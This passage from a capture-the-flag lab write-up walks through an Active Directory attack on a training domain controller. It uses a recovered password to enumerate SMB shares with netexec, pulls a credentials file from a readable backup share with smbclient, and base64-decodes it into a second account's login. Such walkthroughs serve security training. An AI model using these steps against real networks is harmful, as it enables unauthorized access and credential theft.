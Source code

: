 - Password: `management2005`

### Enumerating SMB shares

Now that I have the password for the `svc-admin` user, I could list all the shares on the DC `spookysec.local`. To enumerate SMB shares, I used `netexec`:

```sh
> netexec smb 10.10.239.33 -u svc-admin -p "management2005" --shares
[*] Initializing SMB protocol database
SMB         10.10.239.33    445    ATTACKTIVEDIREC  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.239.33    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005
SMB         10.10.239.33    445    ATTACKTIVEDIREC  [*] Enumerated shares
SMB         10.10.239.33    445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.239.33    445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.239.33    445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.239.33    445    ATTACKTIVEDIREC  backup          READ
SMB         10.10.239.33    445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.239.33    445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.239.33    445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share
SMB         10.10.239.33    445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share
```

- The backup share has read access.

Using `smbclient`, I authenticated to the `backup` share as the `svc-admin` user to find any backed up information which might contain passwords.

```sh
> smbclient //10.10.239.33/backup -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3646401 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

- A file named `backup_credentials.txt` was stored. I downloaded the file from the SMB share to see the contents.

Decoding the hash:

```sh
> base64 -d backup_credentials.txt
backup@spookysec.local:backup2517860
```
